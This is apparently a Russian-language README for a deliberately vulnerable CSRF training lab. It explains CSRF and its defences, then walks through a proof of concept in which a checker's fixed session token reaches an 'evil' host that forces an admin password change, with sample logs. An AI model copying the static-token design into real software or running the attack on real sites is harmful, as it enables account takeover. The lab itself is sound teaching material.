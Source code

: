 # Описание уязвимости
CSRF (Cross-Site Request Forgery) — это атака, при которой злоумышленник заставляет аутентифицированного пользователя выполнить нежелательные действия на веб-странице. При этом законный пользователь не знает об этом. CSRF-атака возможна, если веб-приложение не проверяет подлинность запроса, отправленного на сервер. Если браузер автоматически добавляет куки сессии при выполнении запроса, злоумышленник может подменить данные.

# Способы защиты
1. Использование CSRF-токенов
2. Проверка заголовков "Origin" и "Referer"
3. Ограничение методов запроса (GET-запрос не должен изменять данные)
4. Ограничение времени жизни сессий

# Запуск приложения
Для запуска необходимо запустить Docker и прописать в командной строке:

*docker-compose up --build*

# Описание уязвимости в реализованном приложении
В приложении реализована защита от CSRF с использованием токенов. Однако, CSRF-токен генерируется при входе в систему и не изменяется до завершения сессии. Это позволяет злоумышленнику получить токен и использовать его в атаке: поменять пароль админа на любой иной, залогиниться от его имени и получить флаг.

# POC-эксплоит для получения флага
После запуска приложения начинает свою работу чекер. Он авторизуется на странице логина (**http://web:5000/login**) как администратор ("admin/admin123"). Администратор хочет сменить свой пароль, поэтому чекер переходит на страницу смены пароля (**http://web:5000/change**) и при этом извлекает оттуда CSRF-токен (который не изменяется до завершения сессии). Затем чекер идёт на вредоносную страницу (**http://evil:5005/login**) - злоумышленник мог хитростью заставить администратора зайти туда - и автоматически выполняет POST-запрос на страницу смены пароля с заданным паролем (hacked123) и CSRF-токеном. Наконец, чекер заходит через страницу логина с новоустановленным паролем, и флаг отображается.

Пример логов чекера:

*Copy*
*Checker script started*
*Checking...*
*Starting check...*
*Opening login page: http://web:5000/login*
*Logged in as admin*
*CSRF Token: 13acb3deb0f514fa73d75148cd9d34af*
*Opening attacker page: http://evil:5005/login?csrf_token=13acb3deb0f514fa73d75148cd9d34af*
*Page loaded successfully*
*Re-opening login page: http://web:5000/login*
*CSRF exploit worked! ✅*

После того, как последняя строка будет иметь место, можно зайти на страницу логина (**http://web:5000/login**), выполнить вход ("admin/hacked123") и увидеть флаг.
